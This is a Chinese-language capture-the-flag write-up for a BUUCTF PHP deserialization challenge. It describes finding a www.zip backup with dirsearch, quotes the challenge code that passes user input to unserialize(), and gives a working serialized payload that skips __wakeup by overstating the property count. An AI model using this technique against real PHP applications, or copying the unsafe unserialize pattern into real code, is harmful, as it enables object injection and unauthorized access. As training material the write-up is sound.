

# BUUCTF php反序列化
- 关键词 目录扫描 反序列化

## 题目描述


##解题思路
看到关键词备份，用dirsearch扫一下
是可以扫到www.zip这个文件的，下载下来，里面目录如下：


其中，flag里面的是假的。
index.php的代码如下：
```php
<!DOCTYPE html>
<head>
  <meta charset="UTF-8">
  <title>I have a cat!</title>
  <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/meyer-reset/2.0/reset.min.css">
      <link rel="stylesheet" href="style.css">
</head>
<style>
    #login{   
        position: absolute;   
        top: 50%;   
        left:50%;   
        margin: -150px 0 0 -150px;   
        width: 300px;   
        height: 300px;   
    }   
    h4{   
        font-size: 2em;   
        margin: 0.67em 0;   
    }
</style>
<body>


<div id="world">
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 85%;left: 440px;font-family:KaiTi;">因为每次猫猫都在我键盘上乱跳，所以我有一个良好的备份网站的习惯
    </div>
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 80%;left: 700px;font-family:KaiTi;">不愧是我！！！
    </div>
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 70%;left: 640px;font-family:KaiTi;">
    <?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
    ?>
    </div>
    <div style="position: absolute;bottom: 5%;width: 99%;"><p align="center" style="font:italic 15px Georgia,serif;color:white;"> Syclover @ cl4y</p></div>
</div>
<script src='http://cdnjs.cloudflare.com/ajax/libs/three.js/r70/three.min.js'></script>
<script src='http://cdnjs.cloudflare.com/ajax/libs/gsap/1.16.1/TweenMax.min.js'></script>
<script src='https://s3-us-west-2.amazonaws.com/s.cdpn.io/264161/OrbitControls.js'></script>
<script src='https://s3-us-west-2.amazonaws.com/s.cdpn.io/264161/Cat.js'></script>
<script  src="index.js"></script>
</body>
</html>
```

class.php的代码如下：
```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

从index.php可知参数select存在反序列化的行为。于是我们将参数值给select，但是在反序列化的时候会首先执行`__wakeup()`魔法方法，这个方法会把我们的username重新赋值，所以我们考虑如何跳过`__wakeup()`，直接执行`__destruct` （`__destruct`一定会被执行）
```
当销毁一个对象时才会调用对象的析构函数，一般情况下，销毁一个对象的触发时机为

主动调用 unset( $obj )
主动调用 $obj = NULL
程序自动结束
```

跳过wakeup就简单啦，在反序列化时，当前属性个数大于实际属性个数时，就会跳过__wakeup()。
我们执行如下代码：
```php
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}

$a = new Name('admin',100);
echo serialize($a);
?>
```
输出结果是


需要注意的是，里面的方块字符，其实是空格，我们在拷贝出来的时候会丢失，需要手动填充`%00`字符。
所以最终的payload是
```
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```



## 特别注意的点
因为username和password是私有变量，变量中的类名前后会有空白符，而复制的时候会丢失，所以要加上`%00`。因此私有字段的字段名在序列化的时候，类名和字段名前面都会加上\0的前缀。字符串长度也包括所加前缀的长度

（如上图，<0x00>复制时会丢失）
